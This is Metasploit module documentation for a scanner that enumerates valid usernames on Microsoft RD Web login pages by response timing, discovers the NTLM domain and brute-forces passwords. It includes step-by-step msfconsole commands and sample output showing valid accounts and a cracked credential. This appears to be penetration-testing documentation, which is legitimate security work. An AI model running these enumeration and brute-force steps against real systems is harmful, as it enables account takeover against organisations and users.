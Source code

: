## Vulnerable Application

The Microsoft RD Web login is vulnerable to the same type of authentication username enumeration vulnerability
that is present for OWA. By analyzing the time it takes for a failed response, the RDWeb interface can be used
to quickly test the validity of a set of usernames. The module additionally supports testing username password
combinations. Additionally, this module can attempt to discover the target NTLM domain if you don't already know it.

## Verification Steps


- [ ] Start `msfconsole`
- [ ] `use auxiliary/scanner/http/rdp_web_login`
- [ ] `set rhost TARGET_IP`
- [ ] `set username USER_OR_FILE`
- [ ] `set password PASSWORD_OR_FILE` (Only if you want to test the password brute forcing)
- [ ] `set domain DOMAIN` (Only if you don't want to test the domain discovery feature)
- [ ] Check output for validity of your test username(s), password(s), and domain


## Options

### domain

The target domain to use for the username checks. If not provided, enum_domain needs to be set to true so it can be discovered.

### enum_domain

Enumerate the domain by using an NTLM challenge/response and parsing the AD Domain out.

### username

Either a specific username to verify or a file with one username per line to verify.

### password

Either a specific password to attempt or a file with one password per line to verify.
If not provided, uses the same None password for all requests

## Scenarios
If an RDWeb login page is discovered, you can use this module to gather valid usernames for a brute force attack.

Specific target output replaced with Ys so as not to disclose information
```msf6 > use auxiliary/scanner/http/rdp_web_login
msf6 auxiliary(scanner/http/rdp_web_login) > set username /home/kali/users.txt
username => /home/kali/users.txt
msf6 auxiliary(scanner/http/rdp_web_login) > set RHOSTS YY.YYY.YYY.YY
RHOSTS => YY.YYY.YYY.YY
msf6 auxiliary(scanner/http/rdp_web_login) > run

[*] Running for YY.YYY.YYY.YY...
[+] Found Domain: YYYYYYYYYYYY
[-] Username YYYYYYYYYYYY\wrong is invalid! No response received in 1250 milliseconds
[+] Username YYYYYYYYYYYY\YYYYY is valid! Response received in 628.877 milliseconds
[-] Username YYYYYYYYYYYY\k0pak4 is invalid! No response received in 1250 milliseconds
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed```

If an RDWeb login page is discovered, you can use this module to perform a brute force attack.
```msf6 > use auxiliary/scanner/http/rdp_web_login
msf6 auxiliary(scanner/http/rdp_web_login) > set RHOSTS 192.168.148.128
RHOSTS => 192.168.148.128
msf6 auxiliary(scanner/http/rdp_web_login) > set username /home/kali/users.txt
username => /home/kali/users.txt
msf6 auxiliary(scanner/http/rdp_web_login) > set password /home/kali/passwords.txt
password => /home/kali/passwords.txt
msf6 auxiliary(scanner/http/rdp_web_login) > set timeout 500
timeout => 500
msf6 auxiliary(scanner/http/rdp_web_login) > run

[*] Running for YY.YYY.YYY.YY...
[+] Found Domain: YYYY
[-] Login YYYY\wrong:password is invalid! No response received in 500 milliseconds
[-] Login YYYY\wrong:Password1! is invalid! No response received in 500 milliseconds
[+] Password password is invalid but YYYY\k0pak4 is valid! Response received in 155.648 milliseconds
[+] Login YYYY\k0pak4:Password1! is valid!
[+] Password password is invalid but YYYY\Administrator is valid! Response received in 77.852 milliseconds
[+] Password Password1! is invalid but YYYY\Administrator is valid! Response received in 76.029 milliseconds
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed```

## Version and OS
Tested against Microsoft IIS 10.0 and RDWeb on Windows Server 2019
